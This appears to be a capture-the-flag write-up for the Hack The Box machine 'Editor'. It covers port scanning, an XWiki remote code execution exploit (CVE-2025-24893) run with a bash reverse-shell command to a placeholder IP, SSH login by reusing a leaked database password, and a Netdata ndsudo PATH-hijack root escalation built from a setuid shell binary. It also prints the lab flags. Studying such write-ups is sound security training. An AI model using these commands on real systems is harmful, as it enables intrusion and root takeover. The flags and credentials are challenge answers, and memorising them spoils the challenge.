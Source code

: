 ##
# 📝 Write-up: Editor HTB

![editor](https://www.hackthebox.com/storage/avatars/7d4a6dfe5b291cbe7b4e13e5f5c4d6c3.png)

**Difficulty:** Easy  
**Platform:** Hack The Box  
**Link:** [Editor @ HTB](https://app.hackthebox.com/machines/Editor)

---

## 🎯 Summary
Editor is an **easy Linux machine** that involves:  
- Exploiting an **XWiki RCE** (CVE-2025-24893) for initial access  
- Leveraging **password reuse** for horizontal privilege escalation  
- Abusing a **Netdata SUID binary** (CVE-2024-32019) to get root  

---

## 📋 Table of Contents
1. [Reconnaissance](#-reconnaissance)  
2. [Enumeration](#-enumeration)  
3. [Exploitation: Initial Foothold](#-exploitation-initial-foothold)  
4. [Privilege Escalation: User](#-privilege-escalation-to-user)  
5. [Privilege Escalation: Root](#-privilege-escalation-to-root)  
6. [Lessons Learned](#-lessons-learned)  
7. [References](#-references)  

---

## 🔍 Reconnaissance

Started with a **full port scan** using `nmap`:

```bash
nmap -sC -sV -oA nmap/initial 10.10.11.80


PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3000/tcp open  http    Node.js (Express server)
3306/tcp open  mysql   MySQL 8.0.35-0ubuntu0.20.04.1
8000/tcp open  http    nginx 1.18.0 (Ubuntu)
9000/tcp open  http    Netdata Go.d.plugin 1.32.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
```

## 🕵️ Enumeration

### 🌐 Ports 80 / 8000 — HTTP Servers
- **Port 80** → Hosts a static page with project documentation.  
- **Port 8000** → Runs **XWiki 14.10.5**, a Java-based wiki platform.  

### ⚡ Port 3000 — Express Server
- Node.js application with login functionality.  
- Discovered **default credentials**: admin:admin

→ Grants access to project management dashboard.  

### 📊 Port 9000 — Netdata
- Running **Netdata 1.32.1** (real-time performance monitoring tool).  
- Vulnerable to **CVE-2024-32019** → SUID privilege escalation.  


## 🚀 Exploitation
###  CVE-2025-24893 - XWiki RCE
- Exploit Used: https://github.com/gunzf0x/CVE-2025-24893

 ``` bash
python3 exploit.py -t http://editor.htb:8080 -c 'bash -i >& /dev/tcp/<YOuR_IP>/4444 0>&1'
```


## 🔼 Privilege Escalation: User

### 🔑 Password Reuse

Database credentials were found in the XWiki configuration file.  

**Location:**  
``` bash 
/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml 
```

**Credentials:**
```xml
<property name="hibernate.connection.password">theEd1t0rTeam99</property>
```
### SSH Access:
``` bash
ssh oliver@editor.htb
# Password: theEd1t0rTeam99
```
**User flag:**
**bc2341152c638da4a05b91d91c1df26f** 

## 🚀 Privilege Escalation: to Root
### CVE-2024-32019 - Netdata ndsudo Privilege Escalation
Abused SUID binary /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo for PATH hijacking.

#### Exploitation Steps:

- 1 Create malicious binary:

```bash
echo 'int main(){setuid(0);system("/bin/bash");}' > /tmp/nvme-list.c
gcc /tmp/nvme-list.c -o /tmp/nvme-list
```

- 2 Hijack PATH and execute:
``` bash 
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

**Result: Gained root shell access.**

**Root Flag: 6d4d6c2368c3210994e624647c93119f**

## Bingo! I'm a root! 